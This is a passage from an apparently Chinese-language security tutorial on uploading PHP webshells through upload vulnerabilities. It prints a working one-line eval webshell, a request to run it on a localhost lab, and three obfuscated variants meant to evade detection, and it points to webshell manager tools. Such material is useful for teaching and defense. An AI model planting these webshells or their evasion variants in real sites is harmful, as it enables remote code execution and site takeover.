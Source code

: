 ### 利用漏洞上传 Webshell

#### 1.一句话木马

提到 Webshell 木马，就不得不提下"一句话木马"。PHP 一句话木马可以通过 GET、POST、COOKIE 这几种方式提交数据，然后将数据传递给代码/命令执行函数，从而实现任意代码/命令执行。

比如以下这个一句话木马：

```php
<?php eval(@$_GET['a']); ?>
```

将上述代码保存为 eval.php 并上传至网站，然后构造请求：

```java
http://127.0.0.1/hackable/uploads/eval.php?a=phpinfo();
```

利用一句话木马成功执行 phpinfo() 函数。

![图片4.png](https://s0.lgstatic.com/i/image/M00/91/86/CgqCHmAOpTmAfY3IAARME2KRqaY914.png)  
图 4 利用一句话木马执行代码

有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。

* **利用字符串拼接执行函数名：**

```php
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

* **通过 base64_decode 编码执行函数名：**

```php
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

* **由 GET 参数指定函数名和参数：**

```php
<?php $_GET['a']($_GET['b']);  ?>
```

行业内常称"一句话木马"为"小马"，用它来传递"大马"，因为"大马"比较容易被检测到。

#### 2.Webshell 管理工具

攻击者常用"菜刀""冰蝎""蚁剑"、Weevely、Cknife 这些 Webshell 工具去连接一句话木马，其中尤以"菜刀"最为出名。

由于原版"菜刀"只支持 Windows，因此我这边选用支持跨平台的"冰蝎"作为演示，可进入 [Github](https://github.com/rebeyond/Behinder/releases) 对"冰蝎"进行下载。
